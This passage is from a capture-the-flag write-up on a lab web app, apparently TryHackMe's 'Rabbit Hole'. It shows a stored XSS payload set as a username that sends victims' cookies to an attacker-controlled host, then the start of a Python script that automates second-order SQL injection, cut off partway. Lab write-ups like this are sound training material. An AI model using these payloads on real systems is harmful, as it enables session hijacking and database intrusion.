 Let's attempt some cookie stealing, since the `username` is reflected we will use it.

![Burp request](/images/THM-RabbitHole/burp_req.png)

We are able to register an account with the payload below as the `username`. 

```
<script>var i=new Image(); i.src="http://YOUR_IP:WEBSERVER_PORT/?cookie="+btoa(document.cookie);</script>
```

![Payload for username](/images/THM-RabbitHole/payload_as_username.png)

But logging in with that account produces an error. It reveals that the application is using MariaDB which is just a modified version of MySQL.

![Payload Login error](/images/THM-RabbitHole/login_error_SQLi.png)

This hints at a **second order SQL injection**. We injected the malicious code via our payload when registering the account and it was executed when we logged in. Since the payload did not create any issues at the registering we know that the character `"` is the one causing problems here, which is good as it will serve us for our subsequent SQLis.

Checking our webserver we received some cookie values.

![cookie value received](/images/THM-RabbitHole/cookie_value_xss.png)

Unfortunately everytime I try using one of them I just get logged out, so we can just move to another attack path.

### Second Order SQL injection

The tedious part here is that in order to test our different SQLi payloads we need to create a new user with them and then login to be able to read the query output which is not ideal.

So we will automate the process with the Python script below.

```python
import sys
import requests

def create_user(ip, payload):
    url = f"http://{ip}/register.php"
    data = {
        'username': payload,
        'password': 'password',
        'submit': 'Submit Query'
    }
    response = requests.post(url, data=data)
    return response.status_code == 200

def login_user(ip, payload):
    url = f"http://{ip}/login.php"
    data = {
        'username': payload,
        'password': 'password',
        'login': 'Submit Query'
    }
    response = requests.post(url, data=data)
    return response.text

def main():
    if len(sys.argv) != 3:
        print("Usage: python3 auto_sqli.py <IP_ADDRESS> <PAYLOAD>")
        sys.exit(1)

    ip = sys.argv[1]
```